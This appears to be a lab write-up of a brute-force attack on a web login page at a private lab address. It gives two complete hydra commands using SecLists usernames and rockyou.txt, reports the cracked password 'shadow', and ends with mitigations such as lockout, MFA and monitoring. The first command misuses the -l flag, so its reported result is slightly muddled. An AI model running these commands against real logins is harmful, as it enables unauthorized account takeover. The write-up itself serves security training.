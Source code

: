 ### Brute Force Attack Scenario:

1. **First Attempt:**
    - The initial attempt was to use a single username from the "cirt-default-usernames.txt" wordlist along with passwords from the "rockyou.txt" wordlist to perform a brute force attack on the login page.
    - The hydra command used was: `sudo hydra -l /usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -o hydra.txt 192.168.1.16 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"`
    - Successfully found a valid username/password combination: `login: /usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt   password: shadow`

2. **Multiple Credentials Attempt:**
    - The second attempt involved using a list of usernames from "cirt-default-usernames.txt" along with passwords from "rockyou.txt" to perform a more extensive brute force attack.
    - The hydra command used was: `sudo hydra -L /usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -o hydra.txt 192.168.1.16 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"`
    - Successfully found multiple valid username/password combinations, with the common password being "shadow."

### Impact of the Breach:

1. **Unauthorized Access:**
    - The successful brute force attacks mean that an attacker could gain unauthorized access to the system using the compromised credentials.

2. **Credential Compromise:**
    - Multiple credentials were identified, indicating that several user accounts could be at risk of compromise.

### Advanced Explanation and Mitigation:

1. **Account Lockout Policies:**
    - Implement account lockout policies to temporarily lock user accounts after a certain number of failed login attempts. This helps prevent brute force attacks by slowing down the attackers.

2. **Strong Password Policies:**
    - Enforce strong password policies, encouraging users to choose complex and unique passwords that are less susceptible to brute force attacks.

3. **Multi-Factor Authentication (MFA):**
    - Implement MFA to add an additional layer of security, requiring users to provide more than one form of identification before accessing the system.

4. **Logging and Monitoring:**
    - Regularly monitor and analyze logs for unusual login patterns. Implement alerting systems to notify administrators of suspicious activities, allowing for a swift response to potential security threats.

5. **Regular Security Audits:**
    - Conduct regular security audits to identify and address vulnerabilities. This includes testing for weak passwords, outdated software, and other potential security risks.

By adopting these advanced security measures, organizations can significantly reduce the risk of successful brute force attacks and enhance overall system security.